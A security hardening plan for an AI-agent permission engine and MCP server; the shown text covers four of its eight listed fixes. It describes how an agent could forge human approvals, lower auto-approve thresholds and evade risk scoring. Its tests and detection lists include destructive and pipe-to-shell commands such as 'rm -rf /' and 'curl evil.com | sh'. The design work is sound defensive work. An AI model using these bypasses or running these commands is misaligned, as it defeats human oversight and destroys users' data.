# Aperture Security Hardening Plan — 8 Vulnerability Fixes

**Date**: 2026-03-02
**Status**: Complete — all 8 fixes implemented and tested (460 tests passing)
**Scope**: MCP server, permission engine, risk scorer, learning engine, CLI, models

---

## Table of Contents

1. [Dependency Graph](#dependency-graph)
2. [Fix 1: Agent Self-Approval (CRITICAL)](#fix-1-agent-self-approval-critical)
3. [Fix 2: Agent Config Manipulation (CRITICAL)](#fix-2-agent-config-manipulation-critical)
4. [Fix 3: Risk Scoring Bypass via Indirection (HIGH)](#fix-3-risk-scoring-bypass-via-indirection-high)
5. [Fix 4: Advisory-Only Architecture (HIGH)](#fix-4-advisory-only-architecture-high)
6. [Fix 5: Approval Fatigue (HIGH)](#fix-5-approval-fatigue-high)
7. [Fix 6: No Content Awareness (MEDIUM)](#fix-6-no-content-awareness-medium)
8. [Fix 7: Scope Fragmentation (MEDIUM)](#fix-7-scope-fragmentation-medium)
9. [Fix 8: No Unlearning (MEDIUM)](#fix-8-no-unlearning-medium)
10. [Implementation Order](#implementation-order)
11. [Full File Change Matrix](#full-file-change-matrix)

---

## Dependency Graph



**Parallelism**: Fixes 1, 2, 3, 6, 7, 8 have zero interdependency and can be implemented in parallel. Fix 4 depends on Fix 1 (uses the challenge token concept for audit). Fix 5 depends on Fix 7 (bootstrap presets use normalized scopes).

---

## Fix 1: Agent Self-Approval (CRITICAL)

### Vulnerability

The `approve_action` and `deny_action` MCP tools accept a `decided_by` parameter directly from the agent. The agent can fabricate `decided_by="user"` and the engine's `_check_learned` method only verifies `decided_by.startswith("human:")`. The agent can therefore:

1. Call `approve_action(tool="shell", action="execute", scope="rm -rf /", decided_by="user")`
2. The engine logs this as `decided_by="human:user"` (line 201 of `engine.py`)
3. The learning engine picks it up because `startswith("human:")` passes (line 432 of `engine.py`)
4. After enough fabricated approvals, auto-approve kicks in

### Architecture Decision

- **Decision**: HMAC challenge-response. When `check_permission` returns DENY or ASK, it includes a `challenge` token (HMAC-SHA256 of `tool|action|scope|nonce` signed with a server-side secret). `approve_action` and `deny_action` require this token. Without it, the decision is rejected.
- **Rationale**: The HMAC secret is generated at server startup and never exposed via MCP tools. The challenge token appears in the verdict JSON that the runtime shows to the human. The agent cannot forge it because it does not know the secret.
- **Tradeoffs**: Runtimes that integrate via the REST API (not MCP) need to be updated to extract and pass the challenge token. The REST API `/permissions/record` endpoint gets the same treatment.
- **Alternatives Considered**:
  - Requiring a separate authentication channel (too complex for MCP's stdio transport)
  - Rate-limiting approve calls (doesn't prevent the attack, just slows it)
  - Removing approve/deny from MCP entirely (breaks the primary workflow)

### Component Specifications

#### New Module: `aperture/permissions/challenge.py`

```python
"""HMAC challenge-response for human decision verification.

The challenge token proves that a human saw the verdict before approving/denying.
Without the token, the engine rejects the decision.
"""

import hashlib
import hmac
import os
import time
from dataclasses import dataclass

# Server-side secret — generated once at import time, never exposed via MCP
_SERVER_SECRET: bytes = os.urandom(32)


@dataclass
class ChallengeToken:
    """An HMAC challenge bound to a specific permission check."""
    token: str           # hex-encoded HMAC
    nonce: str           # unique per-check
    issued_at: float     # time.time()
    tool: str
    action: str
    scope: str


def create_challenge(tool: str, action: str, scope: str) -> ChallengeToken:
    """Create an HMAC challenge for a permission check.

    Args:
        tool: Tool name from the permission check
        action: Action name from the permission check
        scope: Scope from the permission check

    Returns:
        ChallengeToken with the HMAC and metadata.
    """
    nonce = os.urandom(16).hex()
    issued_at = time.time()
    message = f"{tool}|{action}|{scope}|{nonce}|{issued_at}".encode()
    token = hmac.new(_SERVER_SECRET, message, hashlib.sha256).hexdigest()
    return ChallengeToken(
        token=token,
        nonce=nonce,
        issued_at=issued_at,
        tool=tool,
        action=action,
        scope=scope,
    )


def verify_challenge(
    token: str,
    nonce: str,
    issued_at: float,
    tool: str,
    action: str,
    scope: str,
    *,
    max_age_seconds: float = 3600.0,
) -> bool:
    """Verify an HMAC challenge token.

    Args:
        token: The HMAC hex string from the challenge
        nonce: The nonce from the challenge
        issued_at: Timestamp from the challenge
        tool: Tool name (must match the original check)
        action: Action name (must match the original check)
        scope: Scope (must match the original check)
        max_age_seconds: Maximum age before the challenge expires (default 1 hour)

    Returns:
        True if the token is valid and not expired.
    """
    # Check expiry
    if time.time() - issued_at > max_age_seconds:
        return False

    # Recompute HMAC
    message = f"{tool}|{action}|{scope}|{nonce}|{issued_at}".encode()
    expected = hmac.new(_SERVER_SECRET, message, hashlib.sha256).hexdigest()
    return hmac.compare_digest(token, expected)


def reset_secret_for_testing() -> None:
    """Reset the server secret. ONLY for use in tests."""
    global _SERVER_SECRET
    _SERVER_SECRET = os.urandom(32)
```

**Preconditions**: Called after a `check_permission` returns DENY or ASK.
**Postconditions**: Returns a token that can only be verified by this server instance with the same secret.
**Invariants**: `_SERVER_SECRET` is never exposed via any MCP tool, REST endpoint, or log message.
**Error handling**:

| Error | Action |
|-------|--------|
| Expired token | `verify_challenge` returns `False` |
| Wrong tool/action/scope | `verify_challenge` returns `False` |
| Tampered token | `verify_challenge` returns `False` (HMAC mismatch) |

#### Modified: `aperture/models/verdict.py`

Add `challenge` field to `PermissionVerdict`:

```python
@dataclass
class PermissionVerdict:
    # ... existing fields ...

    # Challenge token for human approval (only present when decision != ALLOW)
    challenge: str = ""
    challenge_nonce: str = ""
    challenge_issued_at: float = 0.0
```

Update `to_dict()` to include challenge fields when present:

```python
def to_dict(self) -> dict:
    result = { ... existing ... }

    if self.challenge:
        result["challenge"] = self.challenge
        result["challenge_nonce"] = self.challenge_nonce
        result["challenge_issued_at"] = self.challenge_issued_at

    return result
```

#### Modified: `aperture/permissions/engine.py`

In `_build_verdict`, when `decision != PermissionDecision.ALLOW`, generate a challenge:

```python
def _build_verdict(self, decision, decided_by, tool, action, scope, *, organization_id="default", enrich=False):
    from aperture.permissions.risk import classify_risk
    from aperture.permissions.challenge import create_challenge

    risk = classify_risk(tool, action, scope)

    # Generate challenge for non-ALLOW decisions
    challenge_token = None
    if decision != PermissionDecision.ALLOW:
        challenge_token = create_challenge(tool, action, scope)

    # ... rest of existing logic ...

    verdict = PermissionVerdict(
        decision=decision,
        decided_by=decided_by,
        risk=risk,
        # ... existing fields ...
    )

    if challenge_token:
        verdict.challenge = challenge_token.token
        verdict.challenge_nonce = challenge_token.nonce
        verdict.challenge_issued_at = challenge_token.issued_at

    return verdict
```

In `record_human_decision`, add challenge verification:

```python
def record_human_decision(
    self,
    tool: str,
    action: str,
    scope: str,
    decision: PermissionDecision,
    decided_by: str,
    *,
    challenge: str = "",          # NEW
    challenge_nonce: str = "",     # NEW
    challenge_issued_at: float = 0.0,  # NEW
    task_id: str = "",
    session_id: str = "",
    organization_id: str = "default",
    runtime_id: str = "",
    reasoning: str = "",
) -> PermissionLog:
    from aperture.permissions.challenge import verify_challenge

    # Require valid challenge token
    if not challenge or not verify_challenge(
        token=challenge,
        nonce=challenge_nonce,
        issued_at=challenge_issued_at,
        tool=tool,
        action=action,
        scope=scope,
    ):
        logger.warning(
            "Rejected human decision without valid challenge: %s.%s on %s by %s",
            tool, action, scope, decided_by,
        )
        raise ValueError(
            "Invalid or missing challenge token. "
            "Human decisions must include the challenge from the original permission check."
        )

    # ... rest of existing logic unchanged ...
```

#### Modified: `aperture/mcp_server.py`

Update `approve_action` and `deny_action` to accept and pass challenge parameters:

```python
@mcp.tool()
def approve_action(
    tool: str,
    action: str,
    scope: str,
    decided_by: str,
    challenge: str = "",              # NEW — required for recording
    challenge_nonce: str = "",         # NEW
    challenge_issued_at: float = 0.0,  # NEW
    task_id: str = "",
    session_id: str = "",
    reasoning: str = "",
    organization_id: str = "default",
) -> str:
    """Record that a human approved an AI agent action.

    IMPORTANT: You must include the `challenge`, `challenge_nonce`, and
    `challenge_issued_at` values from the original check_permission verdict.
    These prove a human saw the verdict before approving.

    Args:
        tool: Tool name that was approved
        action: Action that was approved
        scope: Resource scope that was approved
        decided_by: Who approved it (user identifier)
        challenge: Challenge token from the original check_permission verdict
        challenge_nonce: Nonce from the original check_permission verdict
        challenge_issued_at: Timestamp from the original check_permission verdict
        task_id: Optional task ID to also create a task-scoped grant
        session_id: Optional session ID (caches approval for this session)
        reasoning: Why the human approved (optional, helps with auditing)
        organization_id: Tenant identifier
    """
    try:
        _engine.record_human_decision(
            tool=tool,
            action=action,
            scope=scope,
            decision=PermissionDecision.ALLOW,
            decided_by=decided_by,
            challenge=challenge,
            challenge_nonce=challenge_nonce,
            challenge_issued_at=challenge_issued_at,
            task_id=task_id,
            session_id=session_id,
            organization_id=organization_id,
            runtime_id="mcp",
            reasoning=reasoning,
        )
    except ValueError as e:
        raise ToolError(str(e))

    # ... rest unchanged (task grant, intelligence reporting) ...
```

Same pattern for `deny_action`.

#### Modified: `aperture/api/routes/permissions.py`

Update `RecordDecisionRequest` to include challenge fields:

```python
class RecordDecisionRequest(BaseModel):
    # ... existing fields ...
    challenge: str = ""
    challenge_nonce: str = ""
    challenge_issued_at: float = 0.0
```

Pass them through to `engine.record_human_decision`.

### Interface Connections



### Data Flow



### Test Strategy

| Test Name | What It Proves |
|-----------|----------------|
| `test_challenge_created_for_deny_verdict` | `check_permission` returning DENY includes a non-empty challenge |
| `test_challenge_created_for_ask_verdict` | `check_permission` returning ASK includes a non-empty challenge |
| `test_no_challenge_for_allow_verdict` | `check_permission` returning ALLOW has empty challenge |
| `test_approve_with_valid_challenge_succeeds` | `approve_action` with correct challenge records the decision |
| `test_approve_without_challenge_raises_error` | `approve_action` without challenge raises ToolError |
| `test_approve_with_wrong_challenge_raises_error` | `approve_action` with fabricated token raises ToolError |
| `test_approve_with_expired_challenge_raises_error` | Challenge older than max_age is rejected |
| `test_approve_with_mismatched_scope_raises_error` | Challenge for "ls" cannot be used to approve "rm -rf /" |
| `test_deny_with_valid_challenge_succeeds` | `deny_action` with correct challenge records the decision |
| `test_deny_without_challenge_raises_error` | `deny_action` without challenge raises ToolError |
| `test_agent_cannot_self_approve_e2e` | Full flow: agent calls check_permission, then tries approve_action without challenge — rejected |
| `test_rest_api_record_requires_challenge` | REST `/permissions/record` requires challenge fields |

### Files to Create or Modify

| File | Action | Purpose |
|------|--------|---------|
| `aperture/permissions/challenge.py` | **Create** | HMAC challenge-response module |
| `aperture/permissions/__init__.py` | **Modify** | Export `create_challenge`, `verify_challenge` |
| `aperture/models/verdict.py` | **Modify** | Add challenge fields to `PermissionVerdict` |
| `aperture/permissions/engine.py` | **Modify** | Generate challenges in `_build_verdict`, verify in `record_human_decision` |
| `aperture/mcp_server.py` | **Modify** | Add challenge params to `approve_action`, `deny_action` |
| `aperture/api/routes/permissions.py` | **Modify** | Add challenge fields to `RecordDecisionRequest` |
| `tests/test_challenge.py` | **Create** | Unit tests for challenge module |
| `tests/test_permissions.py` | **Modify** | Update tests that call `record_human_decision` to include challenge |
| `tests/test_mcp.py` | **Modify** | Update tests that call `approve_action`/`deny_action` to use valid challenges |

---

## Fix 2: Agent Config Manipulation (CRITICAL)

### Vulnerability

The `update_config` MCP tool (line 468 of `mcp_server.py`) lets the agent call:
```
update_config(permission_learning_min_decisions=1, auto_approve_threshold=0.01)
```
This reduces the learning threshold to 1 decision at 1% approval rate, effectively disabling the safety net. The agent can then fabricate a single approval and get everything auto-approved.

### Architecture Decision

- **Decision**: Remove `update_config` from MCP tools entirely. Config changes only via CLI (`aperture configure`) or REST API (`PATCH /config`). Keep `get_config` as read-only MCP tool.
- **Rationale**: The agent has no legitimate need to change security thresholds. Read access is sufficient for the agent to explain the current config to the user.
- **Tradeoffs**: If a workflow genuinely needs runtime config changes, the human must use the CLI or REST API. This is the correct security boundary.
- **Alternatives Considered**:
  - Adding min/max bounds to thresholds (still allows manipulation within bounds)
  - Requiring admin authentication (MCP stdio has no auth layer)

### Component Specifications

#### Modified: `aperture/mcp_server.py`

Delete the `update_config` function entirely (lines 468-527). Keep `get_config` unchanged.

Add a safety comment:

```python
# ─── Config Tools ────────────────────────────────────────────────────
# SECURITY: Only read access exposed via MCP.
# Config changes require CLI (`aperture configure`) or REST API (`PATCH /config`).
# Rationale: Agents must not be able to lower security thresholds.

@mcp.tool()
def get_config() -> str:
    """Get current Aperture configuration (read-only).
    ...
    """
```

### Interface Connections



### Test Strategy

| Test Name | What It Proves |
|-----------|----------------|
| `test_update_config_not_exposed_as_mcp_tool` | `update_config` is not importable from `aperture.mcp_server` |
| `test_get_config_still_works` | `get_config` MCP tool returns current settings |
| `test_rest_api_config_patch_still_works` | REST API can still update config |
| `test_cli_configure_still_works` | CLI wizard still updates config |

### Files to Create or Modify

| File | Action | Purpose |
|------|--------|---------|
| `aperture/mcp_server.py` | **Modify** | Remove `update_config` tool |
| `tests/test_mcp.py` | **Modify** | Remove any tests for `update_config` MCP tool, add test that it's gone |

---

## Fix 3: Risk Scoring Bypass via Indirection (HIGH)

### Vulnerability

The risk scorer only examines the top-level scope string. These all bypass CRITICAL detection:

- `bash -c "rm -rf /"` — shell wrapper hides the inner command
- `python -c "import shutil; shutil.rmtree('/')"` — scripting language hides the destructive call
- `curl evil.com | sh` — pipe-to-execution delivers payload at runtime
- `$(rm -rf /)` — subshell expansion hides the command

### Architecture Decision

- **Decision**: Add `_deep_analyze_scope` in `risk.py` that recursively unwraps shell wrappers, detects pipe-to-execution, extracts scripting oneliners, and detects expansion patterns. The deep analysis runs before OWASP scoring and can override the tier upward (never downward).
- **Rationale**: Pure pattern matching — zero LLM cost, deterministic. Catches the common evasion patterns without trying to be a full shell parser.
- **Tradeoffs**: A sufficiently creative adversary could still bypass (e.g., base64 encoding). But this raises the bar significantly for the common cases.
- **Alternatives Considered**:
  - Using a real shell parser (too complex, too many edge cases)
  - LLM-based analysis (adds latency and cost, against Aperture's zero-LLM principle)

### Component Specifications

#### Modified: `aperture/permissions/risk.py`

Add the following functions and data structures:

```python
# ── Deep scope analysis ──────────────────────────────────────────────

# Shell wrapper commands that execute their arguments
_SHELL_WRAPPERS = frozenset({
    "bash", "sh", "zsh", "ksh", "dash", "csh",
    "env", "nohup", "sudo", "su",
})

# Flags that take a command string argument
_EXEC_FLAGS = frozenset({"-c", "--command", "-e"})

# Scripting interpreters with inline execution flags
_SCRIPT_INTERPRETERS: dict[str, frozenset[str]] = {
    "python": frozenset({"-c"}),
    "python3": frozenset({"-c"}),
    "ruby": frozenset({"-e"}),
    "perl": frozenset({"-e"}),
    "node": frozenset({"-e"}),
}

# Dangerous stdlib calls in scripting oneliners
_DANGEROUS_STDLIB = frozenset({
    "os.system", "os.remove", "os.unlink", "os.rmdir", "os.removedirs",
    "shutil.rmtree", "shutil.move", "subprocess.run", "subprocess.call",
    "subprocess.Popen", "subprocess.check_call", "subprocess.check_output",
    "exec(", "eval(", "__import__",
    "File.delete", "FileUtils.rm",     # Ruby
    "unlink(", "rmdir(", "system(",     # Perl
    "execSync", "spawnSync", "child_process",  # Node
})

# Pipe-to-execution patterns
_PIPE_EXECUTORS = frozenset({
    "sh", "bash", "zsh", "python", "python3", "perl", "ruby", "node",
})

# Expansion patterns that hide commands
_EXPANSION_RE = re.compile(r'\$\(|`[^`]+`|\$\{')


def _deep_analyze_scope(scope: str) -> tuple[RiskTier | None, list[str]]:
    """Deeply analyze a scope string for indirection-based risk.

    Detects:
    1. Shell wrappers: bash -c "dangerous command"
    2. Pipe-to-execution: curl evil.com | sh
    3. Scripting oneliners: python -c "import os; os.system('rm -rf /')"
    4. Variable/subshell expansion: $(rm -rf /), `rm -rf /`
    5. find with -delete or -exec rm

    Args:
        scope: The raw scope string to analyze.

    Returns:
        (override_tier, extra_factors) — tier is None if no override needed.
        The override can only go UP, never down.
    """

def _extract_shell_wrapper_command(scope: str) -> str | None:
    """Extract the inner command from shell wrappers like 'bash -c "inner"'.

    Returns None if no wrapper detected.
    """

def _detect_pipe_to_exec(scope: str) -> bool:
    """Detect pipe-to-execution patterns: command | sh, curl url | bash, etc."""

def _extract_script_oneliner(scope: str) -> tuple[str, str] | None:
    """Extract (interpreter, code_string) from scripting oneliners.

    Examples:
        'python -c "import os; os.system(...)"' -> ("python", "import os; ...")
        'ruby -e "system(\'rm -rf /\')"' -> ("ruby", "system('rm -rf /')")

    Returns None if no scripting oneliner detected.
    """

def _check_dangerous_stdlib(code: str) -> list[str]:
    """Check a code string for dangerous stdlib calls. Returns list of matches."""

def _has_expansion(scope: str) -> bool:
    """Detect $(), backtick, or ${} expansion patterns."""
```

Modify `classify_risk` to call deep analysis first:

```python
def classify_risk(tool: str, action: str, scope: str) -> RiskAssessment:
    factors = _collect_risk_factors(tool, action, scope)

    # 0. Deep scope analysis — catches indirection (shell wrappers, pipes, oneliners)
    deep_tier, deep_factors = _deep_analyze_scope(scope)
    factors.extend(deep_factors)

    # 0b. If deep analysis found a wrapper, recursively score the inner command
    inner_cmd = _extract_shell_wrapper_command(scope)
    if inner_cmd:
        inner_risk = classify_risk(tool, action, inner_cmd)
        if inner_risk.tier.value > (deep_tier or RiskTier.LOW).value:
            deep_tier = inner_risk.tier
            factors.extend(f"inner:{f}" for f in inner_risk.factors if f not in factors)

    # 1. CRITICAL override — matches catastrophic patterns
    if _matches_critical_pattern(scope):
        return RiskAssessment(
            tier=RiskTier.CRITICAL,
            score=1.0,
            factors=["critical_pattern_match"] + factors,
            reversible=False,
        )

    # 2. OWASP-style scoring (existing)
    # ... existing code ...

    # 3. Deep analysis can only elevate the tier, never lower it
    if deep_tier is not None:
        tier_order = {RiskTier.LOW: 0, RiskTier.MEDIUM: 1, RiskTier.HIGH: 2, RiskTier.CRITICAL: 3}
        if tier_order.get(deep_tier, 0) > tier_order.get(tier, 0):
            tier = deep_tier
            if deep_tier == RiskTier.CRITICAL:
                score = 1.0

    return RiskAssessment(tier=tier, score=score, factors=factors, reversible=reversible)
```

Also add `find ... -delete` and `find ... -exec rm` to `_DESTRUCTIVE_MARKERS`:

```python
_DESTRUCTIVE_MARKERS = frozenset({
    "rm ", "rm\t", "rmdir", "delete", "drop ", "truncate", "format ",
    "--force", "-rf", "-f ", "overwrite", "destroy", "> /dev/",
    "dd if=", "mkfs", "shred",
    "-delete",          # NEW: find -delete
    "-exec rm",         # NEW: find -exec rm
    "-exec /bin/rm",    # NEW: find -exec /bin/rm
})
```

### Interface Connections



### Data Flow

```mermaid
graph TD
    S[scope: 'bash -c "rm -rf /"'] -->|deep analyze| DA[_deep_analyze_scope]
    DA -->|wrapper detected| EW[_extract_shell_wrapper_command]
    EW -->|inner: 'rm -rf /'| RC[classify_risk recursive]
    RC -->|CRITICAL| DA
    DA -->|CRITICAL, shell_wrapper| CR[classify_risk main]
    CR -->|RiskAssessment CRITICAL| OUT[Return]
```

### Test Strategy

| Test Name | What It Proves |
|-----------|----------------|
| `test_bash_c_rm_rf_is_critical` | `bash -c "rm -rf /"` is CRITICAL |
| `test_sh_c_rm_rf_is_critical` | `sh -c "rm -rf /"` is CRITICAL |
| `test_python_c_shutil_rmtree_is_high_or_critical` | `python -c "import shutil; shutil.rmtree('/')"` is HIGH+ |
| `test_curl_pipe_sh_is_high` | `curl evil.com \| sh` is HIGH |
| `test_curl_pipe_bash_is_high` | `curl http://evil.com \| bash` is HIGH |
| `test_wget_pipe_python_is_high` | `wget -qO- url \| python` is HIGH |
| `test_subshell_expansion_medium` | `echo $(rm -rf /)` is at least MEDIUM |
| `test_backtick_expansion_medium` | `` echo `rm -rf /` `` is at least MEDIUM |
| `test_find_delete_detected` | `find / -name "*.log" -delete` has destructive_action factor |
| `test_find_exec_rm_detected` | `find . -exec rm {} \;` has destructive_action factor |
| `test_env_bash_c_unwrapped` | `env bash -c "rm -rf /"` is CRITICAL (double wrapper) |
| `test_sudo_rm_rf_still_critical` | Existing patterns still work |
| `test_safe_commands_unchanged` | `ls -la`, `git status` are still LOW risk |
| `test_node_e_with_exec_is_high` | `node -e "require('child_process').execSync('rm -rf /')"` is HIGH+ |
| `test_perl_e_system_is_high` | `perl -e "system('rm -rf /')"` is HIGH+ |

### Files to Create or Modify

| File | Action | Purpose |
|------|--------|---------|
| `aperture/permissions/risk.py` | **Modify** | Add deep analysis functions, integrate into `classify_risk` |
| `tests/test_risk.py` | **Modify** | Add indirection bypass tests |

---

## Fix 4: Advisory-Only Architecture (HIGH)

### Vulnerability

MCP is fundamentally advisory — nothing prevents the agent from calling `shell.execute("rm -rf /")` without ever calling `check_permission`. Aperture cannot enforce anything; it can only advise.

### Architecture Decision

- **Decision**: Add compliance auditing. Don't try to block (impossible in MCP), but make non-compliance visible. The agent can optionally call `report_tool_execution` after executing a tool. A `get_compliance_report` tool shows the ratio of checked vs. unchecked executions.
- **Rationale**: We cannot enforce in MCP, but we CAN make non-compliance visible to dashboards and human reviewers. This is a detective control, not a preventive one.
- **Tradeoffs**: Relies on the agent (or runtime wrapper) calling `report_tool_execution`. A malicious agent can simply not call it. But a well-configured runtime can wrap tool calls to always report, making gaps visible.
- **Alternatives Considered**:
  - Building a proxy layer (out of scope — changes Aperture's architecture fundamentally)
  - Trusting the agent to always check (the current broken state)

### Component Specifications

#### New config fields in `aperture/config.py`

```python
class Settings(BaseSettings):
    # ... existing fields ...

    # Compliance
    compliance_tracking_enabled: bool = False  # opt-in

    # Add to TUNABLE_FIELDS and TUNABLE_DESCRIPTIONS
```

#### New MCP tools in `aperture/mcp_server.py`

```python
@mcp.tool()
def report_tool_execution(
    tool: str,
    action: str,
    scope: str,
    session_id: str = "",
    organization_id: str = "default",
) -> str:
    """Report that a tool was executed (for compliance tracking).

    Call this AFTER executing a tool. Aperture compares reported executions
    against check_permission calls to identify unchecked tool usage.

    When compliance_tracking_enabled is True, any execution without a prior
    check_permission is flagged in the audit trail.

    Args:
        tool: Tool that was executed
        action: Action that was performed
        scope: Resource scope affected
        session_id: Session identifier (used to match against prior checks)
        organization_id: Tenant identifier
    """

@mcp.tool()
def get_compliance_report(
    session_id: str = "",
    organization_id: str = "default",
) -> str:
    """Get a compliance report showing checked vs. unchecked tool executions.

    Returns:
    - Total executions reported
    - Executions with prior permission check
    - Executions WITHOUT prior permission check (compliance gaps)
    - Compliance ratio

    Args:
        session_id: Filter to a specific session
        organization_id: Tenant identifier
    """
```

#### Implementation approach

Store execution reports as audit events with `event_type="tool.executed"`. The compliance report queries:
1. All `tool.executed` events for the session
2. All `permission.check` events for the session
3. Computes the set difference to find unchecked executions

This requires no new database tables — it reuses the existing `AuditStore`.

```python
def _compute_compliance(session_id: str, organization_id: str) -> dict:
    """Compare permission checks against tool executions for a session."""
    checks = _audit.list_events(
        organization_id=organization_id,
        event_type="permission.check",
        limit=10000,
    )
    executions = _audit.list_events(
        organization_id=organization_id,
        event_type="tool.executed",
        limit=10000,
    )

    # Filter by session_id from details
    if session_id:
        checks = [e for e in checks if e.details and e.details.get("session_id") == session_id]
        executions = [e for e in executions if e.details and e.details.get("session_id") == session_id]

    # Build sets of (tool, action, scope) for each
    checked_keys = {
        (e.details["tool"], e.details["action"], e.details["scope"])
        for e in checks if e.details
    }
    executed_keys = {
        (e.details["tool"], e.details["action"], e.details["scope"])
        for e in executions if e.details
    }

    unchecked = executed_keys - checked_keys
    total = len(executed_keys)
    checked = len(executed_keys & checked_keys)

    return {
        "total_executions": total,
        "checked_executions": checked,
        "unchecked_executions": len(unchecked),
        "compliance_ratio": checked / total if total > 0 else 1.0,
        "unchecked_details": [
            {"tool": t, "action": a, "scope": s} for t, a, s in sorted(unchecked)
        ],
    }
```

### Interface Connections



### Data Flow



### Test Strategy

| Test Name | What It Proves |
|-----------|----------------|
| `test_report_tool_execution_creates_audit_event` | `report_tool_execution` creates `tool.executed` audit event |
| `test_compliance_report_all_checked` | Session with all checks before executions shows 100% compliance |
